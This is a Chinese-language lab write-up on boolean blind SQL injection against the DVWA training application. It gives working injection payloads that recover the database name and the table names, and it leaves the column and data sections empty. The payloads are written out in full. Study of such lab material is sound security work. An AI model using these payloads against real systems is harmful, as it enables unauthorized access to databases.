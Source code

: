 ```yaml
---
{"dg-publish":true,"dg-path":"安全/靶场/DVWA-SQL盲注-easy.md","permalink":"/安全/靶场/DVWA-SQL盲注-easy/"}
---
```



界面就一个输入框，要求输入ID
![Pasted image 20240731182251.png](/img/user/picture/Pasted%20image%2020240731182251.png)

当能在数据库中搜索到这个ID时则会返回
`User ID exists in the database.`     ->    ture
 
否则则会返回
`User ID is MISSING from the database.`   ->    false

# 布尔盲注

他的php源码查询语句如下：
```php
`$query  = "SELECT first_name, last_name FROM users WHERE user_id = '$id';";`
```
也就是会将id带入查询，之后如果有查询结果，则会返回第一条语句，如果查询结果为空，则会返回第二条语句
**满足布尔注入条件**



## 获取数据库名


输入  为ture
```sql
1'  and length(database())=4 #
```
则可知数据库名称长度为4

> [!NOTE] 利用函数
> `length(database())`


**接下来来逐个字母破解数据库名称**
> [!NOTE] 利用函数
> `left(database(),1)='p'`
> 或者
> `substr(database(),1,1)='p'`
> 或者
> `ascii(substr(database(),1,1))`
>> [!example] ⼆分法逐字猜解 
>>  `1' and ascii(substr(database(),1,1))>97 #`，显⽰存在，说明数据库名的第⼀个字符的ascii值⼤于 97（⼩写字母a的ascii值）； 
>>  `1' and ascii(substr(database(),1,1))<122 #`，显⽰存在，说明数据库名的第⼀个字符的ascii值⼩于 122（⼩写字母z的ascii值）； 
>>  `1' and ascii(substr(database(),1,1))<109 #`，显⽰存在，说明数据库名的第⼀个字符的ascii值⼩于 109（⼩写字母m的ascii值） 
>>  `1' and ascii(substr(database(),1,1))<103 #`，显⽰存在，说明数据库名的第⼀个字符的ascii值⼩于 103（⼩写字母g的ascii值）； 
>>  `1' and ascii(substr(database(),1,1))<100 #`，显⽰不存在，说明数据库名的第⼀个字符的ascii值不 ⼩于100（⼩写字母d的ascii值）； 
>>  `1' and ascii(substr(database(),1,1))=100 #`，显⽰存在，说明数据库名的第⼀个字符的ascii值等于100（⼩写字母d的ascii值），所以数据库名的第⼀个字符的ascii值为100，即⼩写字母d。 
>>  重复以上步骤直到得出完整的数据库名dvwa 


输入下面内容时返回为ture
```
1'  and left(database(),1)='d' # 

1'  and left(database(),2)='dv' #

1'  and left(database(),3)='dvw' #

1'  and left(database(),4)='dvwa' #
```
则可知数据库名为`dvwa`


## 猜解表名

首先来猜解表的个数
```js
1' and (select count(table_name) from information_schema.tables where table_schema=database())=1 # 
显⽰不存在 


1' and (select count(table_name) from information_schema.tables where table_schema=database())=2 # 
显⽰存在 
```

> [!note] 
> 原理是使用count()这个函数来判断table_name这个表的数量有几个 然后后面有一个where判断来指定是当前数据库 在末尾有一个 =1 ，意思是判断表有1个，正确那么页面返回正常，错误即返回不正常

我们判断出当前数据库名下的表有两个


**猜解表名长度:**

```js
1' and length((select table_name from information_schema.tables where table_schema=database() limit 0,1))=9 #
显⽰存在

1' and length((select table_name from information_schema.tables where table_schema=database() limit 1,1))=5 #
显⽰存在
```

> [!note] 
> ```js
> length(
> 	(select table_name from information_schema.tables where table_schema=database() limit 0,1)
> 	)=9
> 
>```
> 注意：
> `length`函数的参数应该是一个字符串
> 	`limit 0,1`：限制结果，只返回第一行。这是一个偏移量为0（即从第0行开始），获取1行的限制条件。因此，子查询返回的是当前数据库中的第一个表名。

说明两个表名长度分别是5和9


下面猜解两个表名
```js
1' and left((select table_name from information_schema.tables where table_schema=database() limit 0,1),1)='g' # 
显⽰存在


1' and left((select table_name from information_schema.tables where table_schema=database() limit 0,1),2)='gu' # 
显⽰存在

...


1' and left((select table_name from information_schema.tables where table_schema=database() limit 0,1),9)='guestbook' # 
显⽰存在
```

第一个表明为guestbook


```js
1' and left((select table_name from information_schema.tables where table_schema=database() limit 1,1),1)='u' # 
显⽰存在


1' and left((select table_name from information_schema.tables where table_schema=database() limit 1,1),2)='us' # 
显⽰存在

...

1' and left((select table_name from information_schema.tables where table_schema=database() limit 1,1),5)='users' # 
显⽰存在
```
第一个表明为users




**下面的内容大同小异，就不再过多赘述**

## 猜解表中的字段名




## 猜解数据


